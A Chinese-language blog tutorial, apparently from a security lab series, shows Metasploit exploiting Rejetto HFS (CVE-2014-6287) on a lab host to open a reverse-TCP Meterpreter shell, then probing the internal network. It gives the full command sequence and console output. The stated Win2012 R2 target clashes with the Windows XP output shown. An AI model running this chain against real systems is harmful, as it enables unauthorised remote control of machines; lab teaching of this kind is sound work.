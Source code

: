 ```yaml
---
layout: post
category: curleyg-code-hack
title: 使用Metasploit获取目标的控制权限
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 使用Metasploit获取目标的控制权限
lock: need
---
```


# 使用Metasploit获取目标的控制权限

攻击机： Kali 192.168.175.128

靶机： Win2012 R2 192.168.175.130

在上一篇《[对威胁建模(附加搭建CVE:2014-6287漏洞环境](https://blog.csdn.net/l1028386804/article/details/86567192))》中，我们确定了目标系统的漏洞和Metasploit的可利用模块，接下来我们就真正获取目标的控制权限。

```
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOST 192.168.175.130
set RPORT 8080
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.175.128
exploit
```

具体操作如下：

```
msf5 > use exploit/windows/http/rejetto_hfs_exec 
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOST 192.168.175.130
RHOST => 192.168.175.130
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.175.130  yes       The target address range or CIDR identifier
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Using URL: http://0.0.0.0:8080/OHqKAjyg9dj9u
[*] Local IP: http://192.168.175.128:8080/OHqKAjyg9dj9u
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /OHqKAjyg9dj9u
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1091) at 2019-01-23 11:32:15 +0800
[!] Tried to delete %TEMP%\OmpsEelxzVs.vbs, unknown result
[*] Server stopped.

meterpreter > 
```

执行完后，我们就获得了目标主机的控制权。

接下来，我们看看内网中有没有其他主机，如下所示：

```
meterpreter > sysinfo
Computer        : LIUYAZHUANG
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
meterpreter > arp

ARP cache
=========

    IP address       MAC address        Interface
    ----------       -----------        ---------
    192.168.175.2    00:50:56:e7:f5:30  2
    192.168.175.128  00:0c:29:68:65:5b  2
    192.168.175.131  00:0c:29:cf:f6:ac  2

meterpreter > 
```

可以看到内网中有一台192.168.175.131的主机。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
